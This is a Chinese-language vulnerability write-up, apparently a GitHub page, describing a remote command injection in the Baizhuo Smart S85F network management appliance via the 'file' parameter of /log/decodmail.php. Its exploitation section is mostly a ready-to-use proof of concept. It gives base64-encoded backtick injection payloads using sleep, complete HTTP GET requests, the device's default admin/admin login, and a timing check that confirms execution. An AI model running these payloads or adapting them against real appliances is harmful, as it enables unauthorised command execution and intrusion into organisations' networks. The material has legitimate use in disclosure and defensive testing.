



来源 不够安全

***产品简介***

百卓Smart S85F是Smart系列上网行为管理设备中的明星产品，它是专为中小型企业量身打造的专业级新品，它在功能设计方面充分考虑了中小型企业对网络设备高性价比的需求，将多种应用功能集于一身，包括网络应用封堵、流量控制、链路负载均衡、网页分类阻断、上网内容审计、防火墙、VPN等，可帮助企业有效减少网络建设成本、规范员工上网行为、提升网络带宽利用率、避免企业信息泄露、增强网络稳定性和安全性。



***漏洞描述***

北京百卓Smart S85F管理平台发现漏洞，漏洞编号为20230807，已被宣布为严重漏洞。受此漏洞影响的是文件/log/decodmail.php 的未知功能，对参数文件的操作会导致命令注入，攻击可以远程发起。

***影响版本***

```
Smart S85F
```

***空间测绘***


***漏洞利用***

POC

```

# POC需要进行base64编码
/etc/`sleep 5`.pcap
L2V0Yy9gc2xlZXAgNWAucGNhcA==
# 或者，下面是漏洞作者原版POC
/etc/`sleep${IFS}10`.pcap
L2V0Yy9gc2xlZXAke0lGU30xMGAucGNhcA==
```

```

GET /log/decodmail.php?file=L2V0Yy9gc2xlZXAgNWAucGNhcA== HTTP/1.1
Host: xxx.xxx.xxx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=xxxxxxxxxxxxxxxxxxxxxxxxxxxx
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

1.登录系统，默认账户密码：admin/admin



2.替换Cookie，发送数据包

```

GET /log/decodmail.php?file=L2V0Yy9gc2xlZXAgNWAucGNhcA== HTTP/1.1
Host: xxx.xxx.xxx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=xxxxxxxxxxxxxxxxxxxxxxxxxxxx
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

3.延时5s，命令执行成功

